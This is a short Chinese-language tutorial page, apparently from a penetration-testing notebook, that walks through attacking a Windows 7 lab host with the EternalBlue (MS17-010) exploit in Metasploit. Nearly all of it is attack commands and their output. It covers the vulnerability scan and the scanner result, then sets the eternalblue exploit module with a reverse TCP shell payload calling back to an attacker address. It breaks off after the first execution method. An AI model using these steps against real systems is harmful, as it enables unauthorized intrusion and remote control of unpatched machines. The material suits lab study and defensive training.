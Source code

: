 <figure><img src="../.gitbook/assets/20220807202421.png" alt=""><figcaption></figcaption></figure>

### 1. 使用永恒之蓝攻击 win7

> 前提 开启 445 端口

命令：

```shell
search MS17-010  # 查询相关漏洞exp
use auxiliary/scanner/smb/smb_ms17_010    # 使用验证模块
    show options  # 展示指定模块的参数
    set rhosts 192.168.18.128  # 设置参数
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run # 执行后返回的数据
        [+] 192.168.18.128:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600
        [*] 192.168.18.128:445    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
back # 返回
use exploit/windows/smb/ms17_010_eternalblue  # 使用指定exp模块
	show options # 展示参数
	set rhosts 192.168.18.128 # 设置参数
	show targets  # 展示当前模块可以攻击的目标
	show payloads  # 展示 payloads  
	set payload payload/windows/x64/shell_reverse_tcp    # 设定要使用的 payload
		set lhost 192.168.18.143  # 设置 payload 的参数
	执行 exp：
    	第一种：
    		run # 执行 payload,当页面出现 WIN 后表示入侵成功
			chcp 65001      # 如果乱码执行此命令
		第二种：
```